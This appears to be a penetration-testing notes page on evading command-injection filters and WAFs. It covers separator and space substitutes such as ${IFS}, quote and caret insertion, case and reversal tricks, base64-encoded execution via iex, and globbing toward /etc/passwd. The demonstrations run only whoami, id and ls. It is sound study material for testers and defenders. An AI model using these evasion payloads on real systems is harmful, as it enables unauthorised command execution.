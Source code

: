 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Filters

## Front-End Validation

If the restrictions are only applied on the client-side (Figure 1.1), we can bypassed them by using a proxy and modifying the request before it reaches the server (Figure 1.2).

<figure><img src="../../../../.gitbook/assets/web_ci_frontendvalidation.png" alt=""><figcaption><p>Figure 1: Bypassing frontend validation.</p></figcaption></figure>

## App Filters/WAFs

If an error message is displayed where the output should be (Figure 2), then the filter exists in the application itself, whereas if it is displayed on another page, it indicates the presence of a WAF.

<figure><img src="../../../../.gitbook/assets/web_ci_wafs.png" alt=""><figcaption><p>Figure 2: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try methods below!

## Blacklisted Characters

### Bash

```bash
# list all environment variables
env
```

| Blocked | Alternative(s)                                                                                          |
| ------- | ------------------------------------------------------------------------------------------------------- |
| `+`     | <p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p> |
| `/`     | `${PATH:0:1}`                                                                                           |
| `;`     | `${LS_COLORS:10:1}`                                                                                     |
| `:`     | `${LS_COLORS:4:1}`                                                                                      |

### Windows

```powershell
# list all environment variables
set # cmd
Get-ChildItem Env: # powershell

# if `\` is block
%HOMEPATH:~6,-4% # cmd
$env:HOMEPATH[0] # powershell
```

## Character Shifting

We can shift the character by 1, so when we can pass the ASCII character before the one we need. We can get the ASCII table using `man ascii`. For instance if we need to use the `+` symbol, we would use the `*` that comes after it.

```bash
echo $(tr '!-}' '"-~'<<<*)
+
```

## Quotes

Single or double quotes can be used to obfuscate a command as they are ignored by both Bash and PowerShell. CMD only ignores double quotes. **The quote type cannot be mixed and must always be an even number**.

```bash
# original command
$ whoami
x7331
# using single quotes
$ who'a'mi
x7331
# using double quotes
$ wh"oa"mi
x7331
```

Linux based systems can also use other characters.

```bash
$ wh$@oami
x7331

$ wh\oami
x7331
```

In CMD the `^` symbol can also be used.

```shell
$ wh^oami
x7331
```

## Casing

### Linux

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
x7331
# if spaces are blocked
$({tr,"[A-Z]","[a-z]"}<<<"WhOaMi")
x7331
```

### Windows

```powershell
$ whOAMi
x7331
```

## Reversing

### Linux

```bash
echo 'whoami' | rev
imaohw
$(rev<<<'imaohw')
x7331
# in one line
$(rev<<<$(echo${IFS}'whoami'|rev))
x7331
```

### Windows (PowerShell)

```powershell
# reverse command
$ "whoami"[-1..-20] -join ''
imaohw
# execute command
$ iex "$('imaohw'[-1..-20] -join '')"
x7331
```

## Encoding

Encoding the payload can be useful for simple pattern-matching evasion. For instance, regex patterns will have a hard time identifying bash commands in the encoded string. This is also useful if the server URL-encodes certain characters.

### Linux

```bash
# encode the payload
$ echo "whoami" | base64
d2hvYW1pCg==
# inject the encoded payload using command substitution
$(echo d2hvYW1pCg== | base64 -d)
x7331
```

### Windows

{% code overflow="wrap" %}
```powershell
# encode the command
$ [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
# execute the command
$ iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
x7331
```
{% endcode %}

## Globbing

Using wildcards (`?`, `*`, `[`, `]`, `!`) to partially or fully match file names or other file content. Globbing can be hepful in the case where applications/WAFs restrict the use of certain characters.

```bash
$ ls -l /etc/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /???/passwd
-rwsr-xr-x 1 root root 72344 Feb  4 20:28 /bin/passwd
-rw-r--r-- 1 root root  2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/????wd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/{p????d,g???p}
-rw-r--r-- 1 root root  955 Apr  5 15:35 /etc/group
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd
```

## Automated Tools

There are also automated tools for bypasing CI filters (both deprecated).

{% tabs %}
{% tab title="Bashfuscator" %}
{% embed url="https://github.com/Bashfuscator/Bashfuscator" %}
{% endtab %}

{% tab title="DOSfuscation" %}
{% embed url="https://github.com/danielbohannon/Invoke-DOSfuscation" %}
{% endtab %}
{% endtabs %}
